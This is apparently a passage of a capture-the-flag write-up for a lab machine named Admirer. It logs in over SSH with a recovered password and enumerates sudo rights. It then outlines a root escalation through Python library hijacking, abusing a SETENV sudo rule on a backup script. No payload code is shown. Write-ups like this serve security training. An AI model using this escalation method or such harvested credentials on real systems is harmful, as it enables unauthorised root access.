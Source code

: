 
* login into ssh with found creds `waldo:&<h5b~yK3F#{PaPB&dA}{H>` 

# Local Enumeration

- check sudo rights for user waldo

	  waldo@admirer:~$ sudo -l
	  [sudo] password for waldo: 
	  Matching Defaults entries for waldo on admirer:
	      env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

	  User waldo may run the following commands on admirer:
	      (ALL) SETENV: /opt/scripts/admin_tasks.sh

	__*what i have here*__
	* i can set environment variables for `/opt/scripts/admin_tasks.sh`
	* i can run `/opt/scripts/admin_tasks.sh` as root

- review `/opt/scripts/`

	  waldo@admirer:/opt/scripts$ ls -la
	  -rwxr-xr-x 1 root admins 2613 Dec  2  2019 admin_tasks.sh
	  -rwxr----- 1 root admins  198 Dec  2  2019 backup.py

    - in `admin_tasks.sh`

		  backup_web()
		  {
		      if [ "$EUID" -eq 0 ]
		      then
			  echo "Running backup script in the background, it might take a while..."
			  /opt/scripts/backup.py &
		      else
			  echo "Insufficient privileges to perform the selected operation."
		      fi
		  }

    - and in `backup.py`

		  from shutil import make_archive

	__These looks suspicious__
	* script itself not vulnerable
	* script `admin_tasks.sh` calling `backup.py` in 6th `backup_web()` option.
	* script `backup.py` importing shutil library


## Exploit surface

- user `waldo` can set environment variables for the script, [sudo man](https://linux.die.net/man/5/sudoers)
- this means we can set python path for `/opt/scripts`
- here i can use python hijacking to exploit root, [rastating article](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)
